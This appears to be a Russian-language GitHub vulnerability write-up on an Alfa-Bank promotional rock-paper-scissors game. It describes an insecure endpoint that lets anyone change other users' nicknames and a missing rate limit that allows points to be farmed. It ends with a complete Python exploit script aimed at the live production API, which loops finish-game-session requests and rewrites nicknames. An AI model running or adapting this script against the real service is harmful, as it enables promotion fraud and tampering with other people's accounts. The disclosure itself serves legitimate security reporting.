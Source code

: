 # Тестирование игры «Камень, ножницы, бумага» от Альфа-Банка

## Обзор

В ходе тестирования API были обнаружены уязвимости, позволяющие:
- Изменять никнейм пользователей используя известный user-id.
- Накручивать баллы в игровой сессии, передавая максимальное значение win_count, а также обходить нормальный игровой процесс, сразу завершая сессию.

## Описание уязвимостей

### 1. Изменение никнейма

**Описание:**  
Обнаружена возможность смены никнейма для любого созданного аккаунта. При отправке POST-запроса на эндпоинт `/api/rps/create-nick/<user_id>/` с нужным значением поля `nick` можно установить желаемый ник для любого пользователя.

![Пример запроса](images/1.png)

### 2. Накрутка баллов в игровой сессии

**Описание:**  
В API сервиса отсутствует ограничение на количество отправляемых POST-запросов на эндпоинт `/api/rps/finish-game-session/<user_id>/` за определённый промежуток времени. При этом в ответе сервера присутствует поле `played_in_last_4_hours`, однако оно, видимо, не используется для контроля или ограничения частоты запросов.

![Пример запроса на завершение игровой сессии](images/2.png)

При этом пользователь в нормальном процессе игры отправляет ещё запрос о старте сессии, однако уязвимость позволяет сразу отправлять запрос на завершение сессии, получая очки без фактического прохождения игры:

![](images/3.png)

## Демонстрация эксплойта (sploit.py)

Ниже представлено видео, демонстрирующее работу эксплойта.


https://github.com/user-attachments/assets/5a7cb8b4-412a-4a51-9472-5fdeb64d35aa


Ниже приведён пример кода на Python, демонстрирующий эксплойт для обеих уязвимостей:

```python
import requests
import argparse

API_KEY = ""  # Используйте свой api-key
ALFABANK_USER_ID = ""  # Используйте свой user_id


def send_finish_game_session(
        master_of: str,
        win_count: int,
        device: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/finish-game-session/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {
        "master_of": master_of,
        "win_count": win_count,
        "alfabank_user_id": alfabank_user_id,
        "device": device
    }

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def send_create_nick(
        nick: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/create-nick/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {"nick": nick}

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def main(num_requests: int = 0, nick: str = None):
    if nick:
        send_create_nick(nick=nick)

    if num_requests > 0:
        for i in range(num_requests):
            send_finish_game_session(
                master_of="rock",
                win_count=5,
                device="iphone"
            )


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--num_requests',
        type=int,
        default=0,
    )
    parser.add_argument(
        '--nick',
        type=str,
    )
    args = parser.parse_args()

    main(
        num_requests=args.num_requests,
        nick=args.nick
    )
```
